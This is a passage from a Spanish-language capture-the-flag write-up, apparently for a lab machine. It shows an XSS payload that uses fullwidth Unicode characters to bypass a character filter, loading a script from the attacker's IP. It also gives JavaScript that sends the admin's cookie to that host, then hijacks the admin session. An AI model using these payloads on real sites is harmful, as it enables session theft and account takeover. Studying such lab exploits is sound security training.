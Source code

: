 Como bien hemos visto antes, el usuario **admin** está revisando los nuevos usuarios que se registran. Por lo tanto, registraremos un usuario que contenga un **XSS** que realicé una petición a un archivo alojado en nuestra máquina. Para ello, debemos de registrar un usuario con el siguiente contenido.

```html
＜script ｓｒｃ＝＂http：／／192．168．26．10／pwned．js＂＞＜／script＞
```

> Al registrar un usuario con los anteriores caracteres especiales (**Unicode**), evitaremos la comprobación que se realiza por caracteres como `>`, `<`, `"`, `/`, entre otros. Además, dado que se está aplicando una normalización de caracteres por detrás, finalmente estos serán convertidos a su forma original en **ASCII**.
{: .prompt-info }

Veremos como recibimos una petición al archivo `pwned.js`.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315181718.png>)

___
## Explotación
### XSS → Cookie Hijacking

El script `pwned.js` captura la cookie del usuario **admin** y la envía a nuestro servidor:

```js
let img = new Image()
img.src = "http://192.168.26.10/?cookie=" + document.cookie
```

Veremos que capturamos la cookie del administrador, por lo que podemos usarla para iniciar sesión como **admin**.

![](<../assets/images/posts/2025-23-16-tokenofhate/Pasted image 20250315181802.png>)

Estableceremos que nuestra cookie es la que acabamos de obtener, es decir la del usuario administrador. Veremos que conseguimos acceder a la sección del usuario administrador donde podemos generar **PDFs**.
